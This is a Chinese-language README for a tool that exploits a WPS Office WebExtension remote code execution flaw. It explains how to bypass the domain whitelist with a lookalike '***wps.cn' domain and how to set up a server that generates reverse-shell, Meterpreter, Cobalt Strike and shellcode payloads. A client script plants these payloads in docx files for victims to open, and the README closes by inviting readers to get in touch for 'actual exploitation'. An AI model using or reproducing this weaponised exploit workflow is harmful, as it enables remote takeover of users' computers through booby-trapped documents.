






# WPS Office Rce

## 影响版本

* WPS Office 2023 个人版 < 11.1.0.15120
* WPS Office 2019 企业版 < 11.8.2.12085

## 漏洞介绍

### 什么是WebExtension

* Office 中的 WebExtension（通常称为 Office 插件或 Office 应用程序）是一种用于扩展 Microsoft Office 功能的技术。Office 插件使第三方开发者能够在 Office 应用程序中集成自己的服务和功能。这些插件采用跨平台的 Web 技术（如 HTML, CSS 和 JavaScript）开发，可以在不同的平台和设备上运行。

* 简单理解就是office内置了一个浏览器，可以解析`html/javascript/css`代码。

* 本次的漏洞，就是WPS在处理WebExtension时，未能正确的处理`javascript`代码，造成了溢出RCE。（可以参考之前chrome被爆出的RCE漏洞、微信 Windows 版 < 3.1.2.141存在RCE漏洞，比较类似）

### 漏洞利用限制

1.  购买`***wps.cn`的域名

* 既然是由WebExtension中的`javascript`造成的，那么就需要准备对应的html文件，WebExtension支持从第三方网站加载html，所以需要在公网开启web服务，用来共享html文件。

* 由于wps的限制，当我们加载第三方网站的html时，wps会进行提醒，大概如下面图片。



* 在WPS中，`wps.cn`的域名是在白名单中的，只要我们加载的资源在`wps.cn`的网站中，就不会有这个提示。但是我们是无法控制`wps.cn`的。
* 在WPS中，白名单检测存在漏洞，代码中可能使用了`http://.*?.wps.cn`的正则匹配，在这个匹配中，明显存在漏洞，我们只需要把html文件放在`http://hackwps.cn`的网站中，就可以绕过检测。
* 因此，想要利用这个漏洞，必须要购买一个域名，域名中只需要包含`wps.cn`即可，比如`hackerwps.cn`、`xxxwps.cn`。

2. 部署html文件到vps上，并且把域名绑定到vps

* 购买域名和vps后，需要把子域名 `clientweb.docer.wps.cn.***wps.cn`解析到购买的vps上，尽量套一层cdn，再使用nginx反向代理到搭建的服务上。（具体`域名/vps/cdn`可以自行学习部署。）
* 这里的子域名，必须为 `clientweb.docer.wps.cn.***wps.cn`，不然无法过白名单。

## 工具使用

* git clone项目

```
git clone https://github.com/ba0gu0/wps_rce
```

* 安装对应的依赖
* 程序需要使用`python3.8`以上的版本才能够正常运行。
* 程序只在`Mac/Linux`上进行了测试，Windows上运行出现问题，不再进行解答（自行找Linux虚拟机测试）。

```
cd wps_rce
pip install -r requirement.txt -i https://pypi.tuna.tsinghua.edu.cn/simple
```
### 操作演示


https://github.com/ba0gu0/wps-rce/assets/19379443/b1d20c4b-a72f-4a95-9c80-10fc6ba4beff


### 服务端

* 服务端在`server`目录下的`main.py`, 此python脚本的作用是用来生成html代码，同时支持生成shell、msf、cs反弹的代码。

* 需要购买域名`***wps.cn`
* 需要购买vps
* 需要将域名`clientweb.docer.wps.cn.***wps.cn`解析到vps上
* 此处运行`main.py`时，监听端口为80端口，需要使用root权限。

```
cd server
python main.py
```



* 默认情况下，为了方便和域名绑定，服务监听端口为80端口。
* 如果想使用nginx/caddy进行反向代理，可以自行修改端口。



### 服务端功能

* 直接访问域名解析的地址，或者vps的端口



* 此服务端基于网上公开的poc进行开发，访问对应的地址，可以直接生成对应程序的利用代码。


* url对应cs和msf的payload列表

| url地址                     | 平台 | payload                                          |
| --------------------------- | ---- | ------------------------------------------------ |
| /calc                       | 无   | 执行calc命令                                     |
| /shell/1.1.1.1/9000         | all  | 服务器监听：nc -lnvp 9000                        |
| /msf/tcp/1.1.1.1/9000       | msf  | windows/meterpreter/reverse_tcp                  |
| /msf/http/1.1.1.1/80        | msf  | windows/meterpreter/reverse_http                 |
| /msf/https/1.1.1.1/443      | msf  | windows/meterpreter/reverse_https                |
| /cs/http/1.1.1.1/80         | cs   | Beacon http                                      |
| /cs/https/1.1.1.1/443       | cs   | Beacon https                                     |
| /shellcode/base64_shellcode | 无   | 任意的windows可用的shellcode，需要进行base64编码 |

* 比如在绑定域名的情况下，访问`https://clientweb.docer.wps.cn.***wps.cn/calc`, 就会生成弹计算器的攻击payload。

* 访问`https://clientweb.docer.wps.cn.***wps.cn/msf/1.1.1.1/4444`, 就会生成msf上线的payload。




### 客户端

* 客户端在`client`目录下的`main.py`, 此python脚本的作用是用来生成docx文件的。
* 需要提供一个正常的docx文件，攻击payload将被插入到此docx中。
* 需要根据上面搭建的服务端，提供url地址，类似于`https://clientweb.docer.wps.cn.***wps.cn/shell/1.1.1.1/9000`

```
cd client
python main.py ~/Downloads/temp.docx http://clientweb.docer.wps.cn.cloudwps.cn/shell/1.1.1.1/9000
```



#### 本地测试

* docx在利用的时候，需要购买`***wps.cn`的域名，如果没有域名，单纯的进行本地测试，可以修改电脑的hosts文件，手动绑定域名。
* 安装wps的有漏洞版本，修改hosts文件。
* 修改`C:\Windows\System32\drivers\etc\hosts`文件，添加`127.0.0.1    clientweb.docer.wps.cn.cloudwps.cn`（注意，此操作是为了方便本地测试，实际利用时必须购买域名。）
* 注意，上面添加的hosts文件中，`127.0.0.1`需要根据实际情况来填，此IP为运行的server端IP地址。如果server端就运行在本机，可以填`127.0.0.1`，如果运行在其他Linux服务器上，需要确认IP地址能否正常访问。
* 选择服务端payload，是弹计算器、反弹shell、反弹msf还是反弹cs。
* 如果反弹shell，则生成url，`http://clientweb.docer.wps.cn.cloudwps.cn/shell/1.1.1.1/9000`，此处的`1.1.1.1`需要修改为运行nc命令的服务器的IP，此处的IP也可以使用域名。9000需要改为nc监听的端口。（注意，此处的IP和nc是单独的，就是为了接受shell，省事的话，可以直接用运行服务端的服务器去运行。）
* 使用客户端命令生成攻击docx文件，`python main.py ~/Downloads/temp.docx http://clientweb.docer.wps.cn.cloudwps.cn/shell/1.1.1.1/9000`
* 将生成的`wps_office_rce_***.docx`文件，复制到安装wps的电脑，直接双击打开之前在客户端中。

## 实际利用

* 先买域名吧，有域名可以私聊沟通。
